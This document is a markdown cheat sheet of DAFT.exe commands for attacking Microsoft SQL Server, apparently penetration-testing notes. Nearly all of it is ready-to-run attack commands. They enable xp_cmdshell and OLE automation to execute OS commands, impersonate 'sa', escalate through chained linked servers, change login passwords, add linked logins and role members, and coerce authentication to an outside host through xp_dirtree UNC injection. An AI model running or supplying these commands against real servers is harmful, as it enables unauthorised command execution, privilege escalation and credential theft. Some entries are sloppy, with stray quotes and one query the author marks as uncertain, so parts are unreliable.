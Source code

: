 # DAFT Commands

### Generic Info

```
daft.exe -i <SQL SERVER> -d master -m query -q "select system_user;"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT LEFT(@@version, CHARINDEX(' - ', @@version)) ProductName;"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT IS_SRVROLEMEMBER('sysadmin');"
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT IS_SRVROLEMEMBER('sysadmin');"
```

### List Databases and Owners

```
DAFT.exe -i <SQL SERVER> -d master -m Database | findstr "DatabaseName && DatabaseOwner"
```

### Checks for some Excessive Privileges, only found Database Ownership Chaining

```
DAFT.exe -i <SQL SERVER> -d master -m AuditPrivDbChaining
```

### Basic server information

```
DAFT.exe -i <SQL SERVER> -d master -m ServerInfo
```

### Lists links

```
DAFT.exe -i <SQL SERVER> -d master -m ServerLink
```

### Link crawling

```
DAFT.exe -i <SQL SERVER> -d master -m ServerLinkCrawl
```

Lists granted permissions

```
DAFT.exe -i <SQL SERVER> -d master -m ServerPriv
```

### Lists sysadmins

```
DAFT.exe -i <SQL SERVER> -d master -m ServerRoleMember
```

### Using specific DB Creds

```
daft.exe -i <SQL SERVER> -d master -e USER:PASSWORD -m query -q "EXEC ('xp_cmdshell ''whoami'';') AT <SQL SERVER>;"
```

### Impersonation

```
daft.exe -i <SQL SERVER> -d msdb -m query -q "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```

### Found this uncertain of output exactly

```
daft.exe -i <SQL SERVER> -d music -m query -q "SELECT grantee_principal.name AS WhoCanImpersonate ,grantee_principal.type_desc AS ImpersonatorType ,sp.name AS WhoCanTheyImpersonate ,sp.type_desc AS ImpersonateeLoginType FROM sys.server_permissions AS prmssn INNER JOIN sys.server_principals AS sp ON sp.principal_id = prmssn.major_id AND prmssn.class = 101 INNER JOIN sys.server_principals AS grantee_principal ON grantee_principal.principal_id = prmssn.grantee_principal_id WHERE prmssn.state = 'G'"
```

### Change a users password

```
daft.exe -i <SQL SERVER> -d master -m query -q "ALTER LOGIN sqlUsername WITH PASSWORD = N'qwer1234QWER!@#$';"
```

### OLE Stored Procedure

```
daft.exe -i <SQL SERVER> -d master -e 'USERNAME:PASSWORD' -m query -q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null,'ping 192.168.49.59'"
```

### XP cmd shell

```
daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC sp_configure 'show advanced options', 1; reconfigure;'"

daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC sp_configure 'xp_cmdshell', 1; reconfigure;'"

daft.exe -i <SQL SERVER> -d master -e USERNAME:PASSWORD -m query -q "EXEC xp_cmdshell 'whoami';"
```

### COMMAND EXECUTION - LOCAL - XP COMMAND SHELL

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell ipconfig;"
```

### UNC Injection

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master..xp_dirtree \"\\192.168.X.Y\test\";"
```

### DAFT Built in CMD Execution

```
daft.exe -i "<SQL SERVER>" -m OSCmd -q whoami
```

### Linked PrivEsc

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('EXEC (''xp_cmdshell ''''whoami'''';'') AT <LINKED SQL SERVER>') AT <FIRST SQL SERVER>"
```

### Linked Servers XP cmd shell

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT <SQL SERVER>;"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT <SQL SERVER>;"

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('xp_cmdshell ''" + command + "'';') AT <SQL SERVER>;"
```

### Linked Servers xp cmd shell - openquery

```
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;')"

daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;')"

daft.exe -i <SQL SERVER> -d master -m query -q "SELECT 1 FROM openquery(<SQL SERVER>,'SELECT 1;EXEC master..xp_cmdshell ''whoami'';')"

**
daft.exe -i <SQL SERVER> -d master -m query -q "SELECT * FROM OPENQUERY([<SQL SERVER>],'Select @@Servername SYSTEM_USER')"
```

### Add Linkded Login

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master.dbo.sp_addlinkedserver @server = N'<SQL SERVER>', @provider=N'SQLNCLI', @datasrc=N'<SQL SERVER>';" 

daft.exe -i <SQL SERVER> -d master -m query -q "EXEC master.dbo.sp_addlinkedsrvlogin @rmtsrvname = 
N'<SQL SERVER>', @locallogin = NULL , @useself = N'True', @rmtuser=N'asdf',@rmtpassword=N'asdfasdfasdf';;"
```

### ALTER Role cmd

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXEC ('ALTER ROLE db_owner ADD MEMBER aids;') AT <SQL SERVER>;"
```

### Enable RPC

```
daft.exe -i <SQL SERVER> -d master -m query -q "EXECUTE AS LOGIN = 'sa'; EXEC sp_serveroption '<SQLSERVER>', 'rpc out', 'true';EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT <SQLSERVER>;"
```
